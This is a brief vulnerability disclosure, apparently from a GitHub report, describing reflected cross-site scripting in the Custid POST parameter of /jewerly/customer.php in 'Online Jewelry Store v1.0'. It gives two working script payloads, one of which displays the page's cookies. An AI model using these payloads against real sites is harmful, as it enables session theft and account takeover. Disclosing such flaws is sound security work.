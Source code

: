 # Online Jewelry Store v1.0 has reflected cross-site scripting vulnerability

BUG_Author: dengbaihao

Website source code address: https://www.sourcecodester.com/php/14631/online-jewelry-store-php-full-source-code.html

Vulnerability File: /jewerly/customer.php

POST Parameter Custid exists reflected cross-site scripting vulnerability

Payload1: Custid=<script>alert(999)</script>

![image](https://github.com/XIAONIGM/CVEReport/blob/main/1.png)

Payload2: Custid=<script>alert(document.cookie)</script>

![image](https://github.com/XIAONIGM/CVEReport/blob/main/2.png)
